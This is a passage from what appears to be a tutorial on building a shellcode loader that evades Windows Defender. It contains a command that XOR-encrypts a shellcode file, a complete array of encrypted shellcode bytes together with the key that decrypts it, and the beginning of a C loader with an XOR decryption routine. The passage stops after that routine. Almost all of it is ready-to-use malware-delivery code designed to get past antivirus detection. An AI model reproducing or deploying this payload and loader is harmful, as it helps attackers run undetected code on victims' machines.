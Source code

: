 ```bash
./parser.py shellcode.bin out -k f67c2bcbfcfa30fccb36f72dca22a817
```

This generates an output file that can be directly included to a project as a header file (`#include "shellcode.h"`) or you can just copy paste them into your loader.

```c
unsigned char shellcode[] = { 0x9a, 0x7e, 0xb4, 0x87, 0xc2, 0x8a, 0xa3, 0x62, 0x66, 0x63, 0x27, 0x30, 0x72, 0x60, 0x34, 0x32, 0x35, 0x2a, 0x02, 0xe4, 0x03, 0x7f, 0xb9, 0x36, 0x03, 0x29, 0xb9, 0x60, 0x79, 0x70, 0xba, 0x65, 0x46, 0x7e, 0xbc, 0x11, 0x62, 0x2a, 0x6c, 0xd5, 0x2c, 0x29, 0x2b, 0x50, 0xfa, 0x78, 0x57, 0xa3, 0xcf, 0x5e, 0x52, 0x4a, 0x64, 0x1b, 0x12, 0x25, 0xa2, 0xa8, 0x3f, 0x73, 0x60, 0xf9, 0xd3, 0xda, 0x34, 0x77, 0x66, 0x2b, 0xb9, 0x30, 0x43, 0xe9, 0x24, 0x5f, 0x2e, 0x60, 0xe3, 0xbb, 0xe6, 0xeb, 0x63, 0x62, 0x33, 0x7e, 0xe3, 0xf7, 0x46, 0x03, 0x2b, 0x60, 0xe2, 0x62, 0xea, 0x70, 0x29, 0x73, 0xed, 0x76, 0x17, 0x2a, 0x33, 0xb2, 0x80, 0x34, 0x2e, 0x9c, 0xaf, 0x20, 0xb8, 0x04, 0xee, 0x2b, 0x62, 0xb4, 0x7e, 0x07, 0xaf, 0x7f, 0x03, 0xa4, 0xcf, 0x20, 0xf3, 0xfb, 0x6c, 0x79, 0x30, 0xf6, 0x5e, 0xd6, 0x42, 0x92, 0x7e, 0x61, 0x2f, 0x46, 0x6e, 0x26, 0x5f, 0xb0, 0x46, 0xe8, 0x3e, 0x27, 0xe8, 0x22, 0x17, 0x7f, 0x67, 0xe7, 0x54, 0x25, 0xe8, 0x6d, 0x7a, 0x76, 0xea, 0x78, 0x2d, 0x7e, 0x67, 0xe6, 0x76, 0xe8, 0x36, 0xea, 0x2b, 0x63, 0xb6, 0x22, 0x3e, 0x20, 0x6b, 0x6e, 0x3f, 0x39, 0x22, 0x3a, 0x72, 0x6f, 0x27, 0x6d, 0x7a, 0xe7, 0x8f, 0x41, 0x73, 0x60, 0x9e, 0xd8, 0x69, 0x76, 0x3f, 0x6c, 0x7f, 0xe8, 0x20, 0x8b, 0x34, 0x9d, 0x99, 0x9c, 0x3b, 0x28, 0x8d, 0x47, 0x15, 0x51, 0x3c, 0x51, 0x01, 0x36, 0x66, 0x76, 0x64, 0x2d, 0xea, 0x87, 0x7a, 0xb3, 0x8d, 0x98, 0x30, 0x37, 0x66, 0x7f, 0xbe, 0x86, 0x7b, 0xde, 0x61, 0x62, 0x67, 0xd8, 0xa6, 0xc9, 0xcd, 0x4f, 0x27, 0x37, 0x2a, 0xeb, 0xd7, 0x7a, 0xef, 0xc6, 0x73, 0xde, 0x2f, 0x16, 0x14, 0x35, 0x9e, 0xed, 0x7d, 0xbe, 0x8c, 0x5e, 0x36, 0x62, 0x32, 0x62, 0x3a, 0x23, 0xdc, 0x4a, 0xe6, 0x0a, 0x33, 0xcf, 0xb3, 0x33, 0x33, 0x2f, 0x02, 0xff, 0x2b, 0x06, 0xf2, 0x2c, 0x9c, 0xa1, 0x7a, 0xbb, 0xa3, 0x70, 0xce, 0xf7, 0x2e, 0xbf, 0xf6, 0x22, 0x88, 0x88, 0x6c, 0xbd, 0x86, 0x9c, 0xb3, 0x29, 0xba, 0xf7, 0x0c, 0x73, 0x22, 0x3a, 0x7f, 0xbf, 0x84, 0x7f, 0xbb, 0x9d, 0x22, 0xdb, 0xab, 0x97, 0x15, 0x59, 0xce, 0xe2, 0x2e, 0xb7, 0xf3, 0x23, 0x30, 0x62, 0x63, 0x2b, 0xde, 0x00, 0x0b, 0x05, 0x33, 0x30, 0x66, 0x63, 0x63, 0x23, 0x63, 0x77, 0x36, 0x7f, 0xbb, 0x86, 0x34, 0x36, 0x65, 0x7f, 0x50, 0xf8, 0x5b, 0x3a, 0x3f, 0x77, 0x67, 0x81, 0xce, 0x04, 0xa4, 0x26, 0x42, 0x37, 0x67, 0x60, 0x7b, 0xbd, 0x22, 0x47, 0x7b, 0xa4, 0x33, 0x5e, 0x2e, 0xbe, 0xd4, 0x32, 0x33, 0x20, 0x62, 0x73, 0x31, 0x79, 0x61, 0x7e, 0x99, 0xf6, 0x76, 0x33, 0x7b, 0x9d, 0xab, 0x2f, 0xef, 0xa2, 0x2a, 0xe8, 0xf2, 0x71, 0xdc, 0x1a, 0xaf, 0x5d, 0xb5, 0xc9, 0xb3, 0x7f, 0x03, 0xb6, 0x2b, 0x9e, 0xf8, 0xb9, 0x6f, 0x79, 0x8b, 0x3f, 0xe1, 0x2b, 0x57, 0x9c, 0xe7, 0xd9, 0x93, 0xd7, 0xc4, 0x35, 0x27, 0xdb, 0x95, 0xa5, 0xdb, 0xfe, 0x9c, 0xb7, 0x7b, 0xb5, 0xa2, 0x1f, 0x0e, 0x62, 0x1f, 0x6b, 0xb2, 0xc9, 0x81, 0x4d, 0x34, 0x8c, 0x21, 0x25, 0x45, 0x0c, 0x58, 0x62, 0x3a, 0x23, 0xef, 0xb9, 0x99, 0xb4 };

unsigned char key[] = { 0x66, 0x36, 0x37, 0x63, 0x32, 0x62, 0x63, 0x62, 0x66, 0x63, 0x66, 0x61, 0x33, 0x30, 0x66, 0x63, 0x63, 0x62, 0x33, 0x36, 0x66, 0x37, 0x32, 0x64, 0x63, 0x61, 0x32, 0x32, 0x61, 0x38, 0x31, 0x37 };
```

### Windows Defender? I barely know er' Part 2

So far, we've only added some basic encryption to the loader. It should look something like this:

```c
#include <windows.h>

unsigned char shellcode[] = {
    0x9a, 0x7e, 0xb4, 0x87, 0xc2, 0x8a, 0xa3,
    [...SNIP...]
    0x23, 0xef, 0xb9, 0x99, 0xb4 
};
 
unsigned char key[]       = {
    0x66, 0x36, 0x37, 0x63, 0x32, 0x62, 0x63,
    [...SNIP...],
    0x32, 0x32, 0x61, 0x38, 0x31 
};

void xor ( unsigned char * data, int data_len, unsigned char * key, int key_len ) {
    for ( int i = 0; i < data_len; i++ ) {
        data[i] = data[i] ^ key[i % key_len];
    }
}
```
